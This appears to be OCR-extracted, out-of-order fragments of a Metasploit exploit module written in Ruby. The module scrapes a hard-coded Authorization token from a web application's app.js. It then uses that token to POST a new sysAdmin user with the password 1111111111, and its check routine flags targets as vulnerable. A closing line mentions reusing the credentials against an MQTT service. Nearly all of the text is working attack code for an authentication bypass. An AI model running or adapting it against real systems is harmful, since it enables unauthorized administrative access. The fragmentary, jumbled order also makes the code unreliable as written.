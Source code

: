 register_options([
    OptString.new('TARGETURI',  [true, 'Base path for application', '/'])
])
if res && res.code == 200 && res.body =~ /baseURL/
  data = res.body
  #word = data.scan(/"#{string_to_split}"\] = "([\S\s]*?)"/)
  base_url = data.scan(/baseURL: '\/([\S\s]*?)'/)[0]
  print_status("baseURL: #{base_url}") 
  return base_url
else
  fail_with(Failure::NotVulnerable, 'baseURL not found!')
end
 res = send_request_cgi(
   {
   'method' => 'POST',
   'ctype'  => 'application/json',
   'uri' => normalize_uri(target_uri.path, app_path, 'users'),
   'headers' =>
     {
       'Authorization' => token
     },
   'data' => json_data
  })

  if res && res.code == 200 && res.body =~ /localhost/
    print_good("The sysAdmin authorized user has been successfully added.")
    print_status("Username: #{newuser}")
    print_status("Password: 1111111111")
  else
    fail_with(Failure::NotVulnerable, 'An error occurred while adding the user. Try again.')
  end
res = send_request_cgi({
# default.a.defaults.headers.post["Authorization"] check
  'uri'     => normalize_uri(target_uri.path, 'js', 'app.js'),
  'method'  => 'GET'
})     

if res && res.code == 200 && res.body =~ /default.a.defaults.headers.post/
  token = split(res.body, 'Authorization')
  print_status("Authorization: #{token}") 
      return token
else
  fail_with(Failure::NotVulnerable, 'Target is not vulnerable.')
end
if auth_bypass =~ /Basic/
  return Exploit::CheckCode::Vulnerable
else
  return Exploit::CheckCode::Safe
end
    The module tries to log in to the MQTT service with the credentials it has obtained,
    and reflects the response it receives from the service.   
